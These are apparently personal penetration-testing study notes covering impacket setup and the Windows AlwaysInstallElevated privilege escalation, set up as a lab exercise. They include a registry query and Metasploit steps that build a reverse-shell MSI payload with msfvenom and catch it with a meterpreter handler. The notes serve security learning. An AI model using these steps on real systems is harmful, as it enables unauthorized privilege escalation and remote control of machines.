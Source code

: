 ### Exploiting with Shells
Spawning a TTY Shell - https://netsec.ws/?p=337

### impacket
https://github.com/SecureAuthCorp/impacket.git
```
cd /opt/
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket-0.9.19/
pip3 install.
```
> [!NOTE]
> The version number may change under the git clone line

# Privilege Escalation
## AlwaysInstallElevated Registry PrivEsc
### *source:
TCM Windows Privilege Escalation course, "AlwaysInstallElevated Overview and Escalation"

**About**
There is a registry key that essentially allows anyone to run an MSI with full privileges. We can check this with a query and then exploit it:
**Key:** `HKLM\Software\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated`

**Query (cmd)**

- [x] Tested ✅
```
reg query HKLM\Software\Policies\Microsoft\Windows\Installer
```
Note that the "AlwaysInstallElevated" value is 1

> [!NOTE]
>
> Does this still work in Windows Server 2022?
>
> `Computer Configuration > Administrative Templates > Windows Components> Windows Installer`
>
> **Yes**
>
> ![image](https://github.com/user-attachments/assets/a8f9fb15-4528-43cb-90c3-a7d27030777d)



**How to Exploit**

Kali VM

1. Open command prompt and type: msfconsole
2. In Metasploit (msf > prompt) type: use multi/handler
3. In Metasploit (msf > prompt) type: set payload windows/meterpreter/reverse_tcp
4. In Metasploit (msf > prompt) type: set lhost [Kali VM IP Address]
5. In Metasploit (msf > prompt) type: run
6. Open an additional command prompt and type: msfvenom -p windows/meterpreter/reverse_tcp lhost=[Kali VM IP Address] -f msi -o setup.msi
7. Copy the generated file, setup.msi, to the Windows VM.
